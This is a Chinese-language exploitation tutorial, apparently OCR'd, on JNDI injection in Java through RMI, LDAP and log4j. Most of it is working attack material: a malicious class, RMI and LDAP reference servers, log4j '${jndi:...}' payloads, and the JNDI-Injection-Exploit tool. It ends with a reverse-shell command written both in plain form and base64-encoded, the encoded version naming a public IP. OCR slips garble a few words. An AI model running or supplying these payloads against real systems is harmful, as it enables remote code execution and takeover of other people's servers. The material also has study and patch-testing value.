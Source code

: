 ## **JNDI+RMI利用方式**
直接JNDI运行远程方法。
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象(当前名称目录系统之外的对象)。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引l用，并且在目录中保存。
当客户端在lookup()查找这个远程对象时，客户端会获又相应的object factory，最终通过factory类将reference转换为具体的对象实例。
在jdk 8U121后不可用了。RMl远程Reference代码默认不信任，RMl远程Reference代码攻击方式开始失效。

**简单案例**
恶意类，编译.class放在8080http服务
```
import java.io.IOException;​
public class Evil {​
        static {​
                try {​
                        Runtime.getRuntime().exec("calc");​
                } catch (IOException e) {​
                        throw new RuntimeException(e);​
                }​
        }​
}
```
RMI服务端，使用Reference引用http上的class文件
```
public class Refer {​
        public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {​
                String url = "http://127.0.0.1:8080/";​
                Registry registry = LocateRegistry.createRegistry(1099);​
                System.out.println("Registry start");​
                Reference reference = new Reference("test", "Evil", url);​
                ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);​
                registry.bind("aa",referenceWrapper);​
        }​
}
```
被攻击的客户端使用JNDI
```
public class Client {​
        public static void main(String[] args) throws NamingException {​
                Context context=new InitialContext();​
                String url="rmi://127.0.0.1:1099/aa";​
                context.lookup(url);​
        }​
}
```


^
## **JNDI+LDAP利用方式**
使用marshalsec启动一个恶意的LDAP服务，可以执行恶意方法。
其中 http://127.0.0.1:8000/#Evil 的根目录下有一个Evil.class的恶意类。
```
java -cp marshalsec-0.0.3-SNAPSH0T-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#Evil 10997
```
```
public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup( "ldap://127.0.0.1:10997/evil");
}
```
从jdk 8u191开始，LDAP远程Reference代码默认不信任，LDAP远程Reference代码攻击方式开始失效，需要通过javaSerializedData返回序列化gadget方式实现攻击。

^
## **log4j的JNDI注入**
```
使用${jndi:}后，底层使用了new InitialContext().lookup()
logger.info("${jndi:ldap://127.0.0.1:1099/Evil}");
```

```
仅测试dnslog即可，一般有结果就一定存在注入
logger.info("${jndi:ldap://xx.dnslog.cn}");
```

^
## **一键搭建LDAP或RMI利用服务**

JNDI利用工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
jndi进行命令执行，反弹shell：<https://blog.csdn.net/m0_74294234/article/details/137188160>
支持同时启动ldap服务和rmi服务。

```
java8 -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc"

${jndi:rmi://192.168.1.8:1099/yfwrr7}
${jndi:ldap://192.168.1.8:2113/akndj}


注意反弹shell命令需要base64编码
bash -i >& /dev/tcp/（你服务器的公网IP地址）/8888（监听的端口号，我这里使用的是8888端口） 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzYuMjMxLjczLzg4ODggMD4mMQ==（这是上一行代码的base64编码）

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjAuNzYuMjMxLjczLzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i}" -A "（你服务器的公网IP地址）"
```

